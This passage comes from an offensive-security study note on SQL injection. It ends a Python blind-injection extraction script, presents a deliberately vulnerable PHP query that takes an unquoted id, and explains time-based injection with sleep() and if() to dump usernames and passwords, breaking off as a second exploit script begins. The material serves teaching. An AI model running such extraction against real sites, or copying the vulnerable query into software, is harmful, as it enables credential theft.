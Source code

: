 ```Python
            r = requests.get(url)
            if r.status_code == 200:
                extracted_data += chr(character)
                p2.status(extracted_data)
                break
            elif counter == 127:
                empty = True
    sys.exit(0)


if __name__ == '__main__':

    makeSQLI()
```
![[correction.png]]
## Time-Based
Now let's imagine the case that the website headers, status code etc. don't change for any queries that we submit. We should lastly attempt to check if it's vulnerable to time-based injections. Let's go over this kind of injection by analyzing an example.
```PHP
<?php
	$server = "localhost";
	$username = "s4vitar";
	$password = "s4vitar123";
	$database = "Hack4u";
	
	//Conexion a la base de datos
	$conn = new mysqli($server, $username, $password, $database);
	//sanitization
	$id = mysqli_real_escape_string($conn, $_GET['id']);
	//echo $id;

	$query = "select username from users where id = $id";

	$result = mysqli_query($conn, $query);
	$response = mysqli_fetch_array($result);
?>

```
The [[Connection With DBMS|PHP]] code from above is establishing a connection with a [[MySQL]] DB's and sending the following query:
```MySQL
select username from users where id = $id #Where $id would correspond to the user input
```
We also see that user input is being sanitized, so we'll avoid the usage of quotes or double quotes.
![[time-based.png]]
On the screenshot above we observe how a response from the site is delayed if the **id** provided is **valid**, since only on those cases the **sleep()** function will be executed.
It's now time to craft our malicious injection:
![[time-requests.png]]
On this kind of injection we are playing around with the [[MySQL#If Function|if()]] function, where the page will **delay** its response only when the **condition** supplied is **True**. Thus we could now create our exploit to retrieve all usernames and passwords from the users table.
### Exploit
```Python
#!/usr/bin/env/python3

import time
import requests
```